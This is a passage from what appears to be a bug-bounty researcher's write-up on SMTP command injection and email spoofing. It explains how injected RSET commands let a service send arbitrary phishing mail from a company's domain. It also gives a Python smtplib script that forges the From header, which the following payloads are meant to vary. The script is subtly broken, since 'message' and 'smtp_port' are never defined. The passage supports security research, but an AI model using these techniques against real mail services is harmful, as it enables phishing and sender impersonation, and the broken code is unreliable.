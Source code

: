 ![](./3.jpg)



This means we can insert external SMTP commands, reset the current SMTP session using the RSET command, and send arbitrary emails from the service.

As a result, this allows sending emails with any content to any email addresses, which can be used in phishing attacks.

A typical example of such attacks involves websites that send registration or password recovery emails. I have found instances where this can indeed lead to scenarios where we can send arbitrary content as if it were from the company's domain.

Indeed, other patterns that were considered earlier lead to similar problems. However, the address is not always directly inserted into the SMTP packet

# Email spoofing
Another major issue I encountered is the inconsistency of SMTP servers. The problem is that SMTP servers parse the recipient address differently, which leads to email spoofing.

## Script for testing
The following Python script will be used for testing:
```python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

# Replace these values with your own information
sender_email = "slonser.bugbounty@gmail.com"
receiver_email = "<slonser.bugbounty@outlook.com>"
password = "password" # gmail
smtp_server = "smtp.gmail.com"
message["From"] = "<spoofed@gmail.com> \"spoofed\" <slonser.bugbounty@gmail.com>"

message.attach(MIMEText('Amogus', "plain"))

server = smtplib.SMTP(smtp_server, smtp_port)
server.set_debuglevel(1)
server.starttls()
server.login(sender_email, password)
print(message.as_string())
server.sendmail(sender_email, receiver_email, message.as_string())
```
For all the payloads below, simply change message["From"] in the given code.
